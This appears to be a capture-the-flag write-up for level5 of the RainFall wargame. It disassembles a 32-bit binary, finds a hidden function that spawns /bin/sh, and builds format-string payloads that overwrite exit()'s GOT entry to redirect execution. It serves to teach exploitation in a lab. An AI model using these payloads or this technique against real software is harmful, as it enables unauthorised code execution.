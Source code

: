 Disassembled version with gdb:

```assembly
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```

We only see these two functions if we follow the function call stack from main. However, an objdump reveals a function <o> calling bin/sh:

```assembly
080484a4 <o>:
 80484a4:	55                   	push   %ebp
 80484a5:	89 e5                	mov    %esp,%ebp
 80484a7:	83 ec 18             	sub    $0x18,%esp
 80484aa:	c7 04 24 f0 85 04 08 	movl   $0x80485f0,(%esp)
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
 80484b6:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>
```

I will attempt to write the address of the function o() `080484a4` somewhere to make the program jump to /bin/sh. But we need to find where to place this address. It might be challenging to use EIP since n() does not return to main and instead uses exit().

The idea would be to achieve a **code execution redirection** by going through a trick called **GOT overwrite**, and thereby substitute the call to the exit() function with a call to the o() function.

Here is the article that helped me understand this technique: https://axcheron.github.io/exploit-101-format-strings/#code-execution-redirect

To find the address of exit() in the Global Offset Table:

```shell
level5@RainFall:~$ objdump -R ./level5 

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

Now all that's left is to rewrite the address of o(), which is `080484a4`, at the location of exit() in the Global Offset Table, which is `08049838`. The payload finally looks like this:

```shell
(python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"'; cat) | ./level5
```

In a 2-byte by 2-byte version:

```shell
(python -c 'print "\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%33948d%4$hn" + "%33632d%5$hn"'; cat) | ./level5
```

All that's left is to retrieve the flag!
